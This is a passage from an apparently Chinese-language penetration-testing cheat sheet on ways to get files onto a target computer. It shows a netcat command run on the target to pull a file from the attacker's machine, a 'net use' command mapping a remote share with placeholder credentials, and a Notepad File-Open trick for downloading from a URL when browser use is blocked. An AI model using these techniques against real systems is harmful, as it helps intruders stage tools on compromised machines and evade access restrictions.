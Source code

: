 目标电脑上的命令：

    nc host_ip 1234 > file

这条命令将连接攻击者的电脑，接受 file 内容保存。

## 12 Windows Share File Download

Windows shares 可以加载一个驱动器，然后用命令来复制文件。

加载远程驱动：

     net use x: \\127.0.0.1\share /user:example.com\userID myPassword

## 13 Notepad Dialog Box File Download

如果你有权限接入一台（远程连接或者物理机）电脑，但是你用户权限不允许打开浏览器，这种方式可以让你快速的从一个 URL 或者 UNC 路径当中下载文件。

1.  打开 notepad
2.  点击 file - open

在 File Name 当中输入完整的 URL：

![1](././收集整理的文件下载的方式/20180329012200197.png)

Notepad 将会获取 URL 的内容展现出来。
